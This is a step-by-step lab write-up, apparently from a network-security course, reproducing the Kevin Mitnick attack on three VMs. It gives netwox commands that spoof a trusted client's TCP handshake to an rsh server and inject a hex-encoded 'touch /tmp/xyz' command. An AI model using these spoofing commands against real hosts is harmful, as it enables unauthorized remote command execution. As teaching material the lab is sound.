

## The Kevin Mitnick Attack 

### Requirements

In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

### Setup

3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 172.16.77.128, and the victim server's IP is 172.16.77.129.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

```console
# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server
```

step 2. configure rsh on the victim server machine.

```console
$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts
```

These commands look like this:


If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you current date information.

```console
# rsh [victim server’s IP] date
```

Like this:


As a comparison, if you run the same command from the attacker's machine, you will get an error like this:


step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

```console
# sudo arp -s [victim client’s IP] [victim client’s MAC]
```

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

This screenshot shows the command and how to find the victim client's MAC address:


3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond. **Explanation**: why do we want the server to remember the MAC address of the client? Because computers in the same network use MAC addresses, instead of IP addresses, to communicate. And once we shutdown the victim client, if the server doesn't know the victim client's MAC address, the server simply won't send any packet to the client; but our attack won't be successful if the server doesn't send any packet to the client.

This screenshot shows the command to shutdown the victim client VM:


step 4. in the attacking steps (next section), right after step 6.1, we need to run step 6.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 6.3, we need to run step 7.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

```console
# sudo sysctl -w net.ipv4.tcp_syn_retries=50
# sudo sysctl -w net.ipv4.tcp_synack_retries=50
```

This screenshot shows these two commands:


**Explanation**: these two commands are saying, do not reset the tcp connection, unless one party of the connection has tried syn more than 50 times; do not reset the tcp connection, unless one party of the connection has tried syn-ack more than 50 times.

step 5. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called /tmp/xyz on the server machine - as our ultimate goal in this lab is to create such a file.

This screenshot shows, at this moment, there is no such a file called /tmp/xyz on the **server** machine.


### Attacking steps:

All the attacking steps are performed on the attacker's machine.

step 6. create the first TCP connection. 

step 6.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

```console
# sudo netwox 40 --tcp-syn --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514
```

This screenshot shows the command:


step 6.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

```console
# sudo netwox 40 --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1
```

This screenshot shows the command:


This screenshot shows x is 2247827088, and thus x+1 is 2247827089.


This screenshot shows y is 734062308, and thus y+1 is 734062309.


step 6.3: send one ACK packet to the server. This packet carries the command we want to run:

```console
# sudo netwox 40 --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 
```

This screenshot shows the command:


note: step 6.2 and step 6.3 are the same command, except that --tcp-data part.

**Explanation**: why the tcp data is "393039300073656564007365656400746f756368202f746d702f78797a00"? Because in netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```console
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

step 7. create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 7.1: 

```console
# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1
```

This screenshot shows the command:


This screenshot shows that z is 703071262, and thus z+1 is 703071263.


### Verification steps:

step 8. on the victim's server machine, see if /tmp/xyz is created.


